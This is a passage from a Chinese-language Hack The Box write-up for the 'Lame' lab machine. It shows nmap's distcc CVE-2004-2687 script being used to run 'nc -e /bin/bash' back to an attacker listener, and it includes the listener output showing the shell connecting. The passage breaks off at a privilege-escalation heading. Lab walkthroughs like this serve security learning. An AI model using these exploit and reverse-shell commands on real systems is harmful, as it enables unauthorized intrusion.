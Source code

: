 可以看到`distcc-exec.cmd`参数即为所执行的命令，将其改为连接命令，如`nc -e /bin/bash 10.10.14.2 4444`，

用`nmap -p 3632 &lt;ip&gt; --script distcc-exec --script-args=&#34;distcc-exec.cmd=&#39;id&#39;&#34;`这种方法出现了很多意料之外的问题，无法成功获得shell。排查中...

```shell
 NSE: failed to initialize the script engine: 
 /usr/bin/../share/nmap/nse_main.lua:822: &#39;distcc-exec&#39; did not match a category, filename, or directory
 stack traceback:
        [C]: in function &#39;error&#39;
        /usr/bin/../share/nmap/nse_main.lua:822: in local &#39;get_chosen_scripts&#39;         
        /usr/bin/../share/nmap/nse_main.lua:1322: in main chunk 
        [C]: in ?                                                           
         
 QUITTING!        
```

排查结果出来了，虽然用法中写着distcc-exec，但nmap其实并无法识别，只能用全名，对应的后面也需要修改。改成如下后，可成功执行

```shell
 $ sudo nmap -p3632 10.10.10.3 --script=distcc-cve2004-2687.nse --script-args=&#34;distcc-cve2004-2687.cmd=&#39;nc -e /bin/bash 10.10.14.2 4444&#39;&#34;
 
 $ nc -lvnp 4444
 listening on [any] 4444 ...
 connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 42558
 
```

![图片](/resource/HTB靶机-Lame-WriteUp.assets/640-20230220174729769.png)

成功获得了daemon 权限，接下去进行提权

### 提权1：SUID - nmap
